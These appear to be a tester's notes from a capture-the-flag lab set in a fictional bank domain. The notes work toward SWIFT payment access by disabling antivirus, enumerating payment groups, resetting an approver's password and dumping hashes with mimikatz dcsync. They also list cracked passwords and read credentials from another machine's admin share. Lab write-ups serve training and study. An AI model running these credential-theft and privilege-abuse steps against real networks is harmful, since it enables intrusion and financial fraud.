 Turn off AV(realtime-monitoring) by GUI or powershell like always since we need mimikatz.
# Enum
### Payment Approvers
```powershell
net group "Payment Approvers" /domain

The request will be processed at a domain controller for domain bank.thereserve.loc.

Group name     Payment Approvers
Comment

Members

-------------------------------------------------------------------------------
a.holt                   a.turner                 r.davies
s.kemp
The command completed successfully.
```

### Payment Capturers
```powershell
net group "Payment Capturers" /domain

The request will be processed at a domain controller for domain bank.thereserve.loc.

Group name     Payment Capturers
Comment

Members

-------------------------------------------------------------------------------
a.barker                 c.young                  g.watson
s.harding                t.buckley
The command completed successfully.
```

### Users on JMP
2 approvers
```powershell
PS C:\Users> dir


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        2/19/2023   9:05 AM                a.holt
d-----        2/19/2023   9:18 AM                a.turner
d-----         6/4/2023  11:59 PM                Administrator
d-----         6/5/2023  12:06 AM                baturu
d-r---       12/12/2018   7:45 AM                Public
d-----         9/7/2022   3:55 PM                THMSetup

PS C:\Users> net user a.holt Password12 /domain
The request will be processed at a domain controller for domain bank.thereserve.loc.

The command completed successfully.
```

The Capture's password are allow replication. Therefore, the AD creds are as same as their Swift web cred. But the approver disallow the replication, reset it then. Get the swift password from JMP's chrome saved passwords.

![[Pasted image 20230605141742.png]]

### Users on WORK1
3 capturers
```powershell
PS C:\Users> dir \\10.200.118.51\c$\Users


    Directory: \\10.200.118.51\c$\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        2/19/2023   8:37 AM                a.barker fba64e343f0bb56ea95aeb2b5ea418b3
d-----        2/19/2023   8:43 AM                g.watson
d-r---       12/12/2018   7:45 AM                Public
d-----        2/19/2023   8:45 AM                t.buckley Hash NTLM: b8761a00e67b0023797eb3c988c86995
d-----         9/7/2022   3:55 PM                THMSetup

lsadump::dcsync /user:bank\g.watson

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::dcsync /user:bank\g.watson
[DC] 'bank.thereserve.loc' will be the domain
[DC] 'BANKDC.bank.thereserve.loc' will be the DC server
[DC] 'bank\g.watson' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : g.watson

** SAM ACCOUNT **

SAM Username         : g.watson
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 2/14/2023 5:36:09 AM
Object Security ID   : S-1-5-21-3455338511-2124712869-1448239061-1263
Object Relative ID   : 1263

Credentials:
  Hash NTLM: bb3b1e95f9de5864d181eb0119b498c5
    ntlm- 0: bb3b1e95f9de5864d181eb0119b498c5
    lm  - 0: 572a79b619c8a59d17537db01a8100f4

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 5103ac301d80e0c134c6ea28828437d2
```

### Users on WORK2
2 capturers
```powershell
dir \\10.200.118.52\c$\Users

Directory: \\10.200.118.52\c$\Users

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         6/5/2023  12:18 AM                Administrator
d-----         6/5/2023  12:15 AM                baturu
d-----        2/19/2023   8:50 AM                c.young
fbdcd5041c96ddbd82224270b57f11fc
d-r---       12/12/2018   7:45 AM                Public
d-----        2/19/2023   8:51 AM                s.harding 9e4a079d9c28c961d38bd2cca0c9cd5d
d-----         9/7/2022   3:55 PM                THMSetup

```

* 9e4a079d9c28c961d38bd2cca0c9cd5d	NTLM	s.harding:Flamingo1984
* fbdcd5041c96ddbd82224270b57f11fc	NTLM	 c.young:Password!

### Swift
```powershell
PS C:\Users> dir '\\10.200.118.52\c$\Users\s.harding\Documents\Swift\Swift.txt'


    Directory: \\10.200.118.52\c$\Users\s.harding\Documents\Swift


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        2/19/2023   8:52 AM            303 Swift.txt


PS C:\Users> type '\\10.200.118.52\c$\Users\s.harding\Documents\Swift\Swift.txt'
Welcome capturer to the SWIFT team.

You're credentials have been activated. For ease, your most recent AD password was replicated to the SWIFT application. Please feel free to change this password should you deem it necessary.

You can access the SWIFT system here: http://swift.bank.thereserve.loc
PS C:\Users>
```

-> Back to SWIFT once above done